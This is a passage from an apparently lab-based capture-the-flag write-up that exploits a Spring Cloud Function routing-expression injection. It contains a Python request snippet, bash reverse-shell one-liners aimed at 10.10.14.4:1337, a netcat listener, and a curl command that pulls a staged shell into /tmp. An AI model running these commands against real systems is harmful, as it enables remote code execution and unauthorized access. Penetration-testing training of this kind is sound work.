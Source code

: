 ```python
        try:
            req=requests.post(url=all,headers=headers,data=data,verify=False,timeout=3)
```

Things to note:
- Passing the payload through a specific header: `'spring.cloud.function.routing-expression':payload`
- The path to send our request to: `path = '/functionRouter'`
- The method of the request: `req=requests.post`

![](ping_test.png)

>_Make sure to have a two line break at the end!_

```bash
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.204 - - [08/Feb/2024 18:13:10] "GET / HTTP/1.1" 200 -
```

Although the above check worked, sending a reverse shell does not work:

```bash
"/bin/bash -i >& /dev/tcp/10.10.14.4/1337 0>&1"
# or
"bash -c '/bin/bash -i >& /dev/tcp/10.10.14.4/1337 0>&1'"
```

Copy the payload to a file and serve it through an HTTP server:

```bash
$ echo "/bin/bash -i >& /dev/tcp/10.10.14.4/1337 0>&1" > index.html

$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Open a listener on another tab:

```bash
$ nc -lvnp 1337
listening on [any] 1337 ...
```

Save the payload to the target's `tmp` directory:

```bash
/usr/bin/curl 10.10.14.4:8000 -o /tmp/shell
```

![](saving_shell.png)

```bash
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.204 - - [08/Feb/2024 18:27:56] "GET / HTTP/1.1" 200 -
```

